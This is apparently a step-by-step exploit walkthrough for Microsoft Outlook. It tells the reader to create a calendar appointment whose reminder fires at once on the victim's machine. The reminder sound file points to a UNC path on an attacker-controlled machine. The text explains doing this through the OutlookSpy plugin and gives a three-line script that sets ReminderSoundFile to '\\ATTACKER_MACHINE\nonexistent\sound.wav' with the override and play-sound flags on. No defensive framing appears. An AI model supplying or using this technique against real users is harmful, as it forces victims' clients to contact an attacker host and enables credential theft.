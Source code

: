We will create an appointment that includes a reminder set in 0 minutes so that it triggers right after the victim receives it.
We will also click on the Sound option to configure the reminder's sound file.(Image in PNG_Files name:Config_Reminder_Sound)

Now, we can set the sound file path to a UNC path that points to our Machine and click OK.
However, Outlook will Sliently ignore the UNC path and revert to using the default WAV file, which can be confirmed by going back to the Sound dialogue.

Since Outlook isn't expecting users to input a UNC path here, it probably discards our attempt as invalid output.
But We can do this in other Ways..

---------------------------------------------------------------------------------
OutlookSpy:
============

Even if Outlook cannot set the reminder's sound file to a UNC path, we can use the OutlookSpy plugin to achieve this.

This plugin allow you to access all of Outlook's internal parameters directly, including the reminder's sound file.

To view our current appointment from OutlookSpy, click the "OutlookSpy" tab and then the "CurrentItem" button in the taskbar.(Image in PNG_Files name:OutlookSpy)

*Note*: Be sure to click the CurrentItem button from within the appointment, or you might modify different Outlook components.

---------------------------------------------------------------------------------
Now, you can see the parameters associated with the appointment's reminder.

We want to set the "ReminderSoundFile" parameter to the UNC path that points to our Machine and set both the "ReminderOverrideDefault" and "ReminderPlaySound" to true.

But what each parameter does?
-------------------------------
* ReminderPlaySound: boolean value that indicates if a sound will be played with the reminder.

* ReminderOverrideDefault: boolean value that indicates the receiving Outlook client to play the sound pointed by "ReminderSoundFile", instead of the default one.

* ReminderSoundFile: string with the path to the sound file to be used For our exploit, this will point to a bogus shared folder in our Machine.

Alternativly we can use the script tab with the follow script to change those parameters values that are requird:
--------------------------------------

AppointmentItem.ReminderOverrideDefault = true
AppointmentItem.ReminderPlaySound = true
AppointmentItem.ReminderSoundFile = "\\ATTACKER_MACHINE\nonexistent\sound.wav"

*NOTE*: Be sure to click the Run button for the changes to be applied. 

---------------------------------------------------------------------------------
Finally, save your appointment to add it to your calendar.
making sure the reminder is set to 0 minutes and that the appointment matches the current time and date as we want it to trigger immediately.
(Image in PNG_Files name:Appointment_Save)
